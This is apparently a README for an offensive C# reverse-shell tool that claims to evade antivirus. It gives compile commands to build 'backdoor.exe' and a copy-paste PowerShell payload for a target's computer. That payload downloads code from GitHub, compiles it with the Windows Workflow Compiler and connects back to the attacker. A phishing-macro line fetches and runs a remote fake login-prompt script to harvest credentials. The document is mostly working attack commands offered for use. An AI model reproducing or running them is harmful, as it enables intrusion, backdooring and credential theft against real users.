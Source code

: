 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe (to make a backdoor in an executable file)
To generate the executable file, compile the script "reverse_shell_to_exe.cs" like that :  
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell (With physical acces to the target's computer)
To get a reverse shell via a command line (cmd.exe), copy paste the following payload directly on the target's computer   
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back to your IP)  
  
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full scenario of remote hacking via Macro Word (phishing campaign)


 powershell.exe -ep bypass -c IEX ((New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/S-crow/reverseShell/master/Invoke-LoginPrompt.ps1’)); Invoke-LoginPrompt

